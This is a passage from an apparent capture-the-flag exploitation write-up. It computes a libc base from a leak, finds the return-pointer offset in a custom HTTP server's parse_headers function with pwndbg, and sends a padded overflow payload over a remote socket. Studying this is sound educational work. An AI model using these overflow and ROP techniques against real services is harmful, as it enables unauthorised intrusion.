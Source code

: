 We then load libc the typical way:

```python
libc = ELF('libc-2.31.so')
[...]
libc.address = leak - 0x1ecbe0
log.success(f'Libc base: 0x{libc.address:x}')
```

## ROP to Shell

The final stage is to just use the buffer overflow to gain a shell. First we have to work out the offset, and we'll do that by creating a pattern that we feed in. We'll then pass it through via the headers section in our script, making sure we still place a `\r\n\r\n` sequence at the end. Remember that we can use `\n` as a padding byte to avoid overwriting the other local variables on our way to the saved return pointer.

Firstly, though, we'll set a breakpoint at the `ret` of `parse_headers`.

```python
pwndbg> disassemble parse_headers 
Dump of assembler code for function parse_headers:
[...]
   0x000055e2b0ccf919 <+367>:	nop
   0x000055e2b0ccf91a <+368>:	leave  
   0x000055e2b0ccf91b <+369>:	ret
pwndbg> b *0x000055e2b0ccf91b
Breakpoint 1 at 0x000055e2b0ccf91b
pwndbg> c
```

We'll try it remote like this:

```python
p = remote(IP, PORT)

payload = b'PLAGUE /huh HTTP/1.1\r\n'
payload = payload.ljust(1024, b'A')
payload += b'\n' * 0x58
payload += b'B' * 8
payload += b'\r\n\r\nf\r\n'

p.send(payload)
p.close()
```

The `1024` padding is with the character `A` so we can detect more easily where it starts. This won't have an issue as it actually has `1024` byte assigned to the buffer, so that's not a problem. The breakpoint is hit:

```gdb
pwndbg> x/20gx $rsp
0x7ffe12ee7258:	0x000055e2b0ccf478	0x42424242424276b0
0x7ffe12ee7268:	0x0a000a0d0a0d4242	0x2f20455547414c50
0x7ffe12ee7278:	0x5054544820687568	0x0000000d312e312f
```
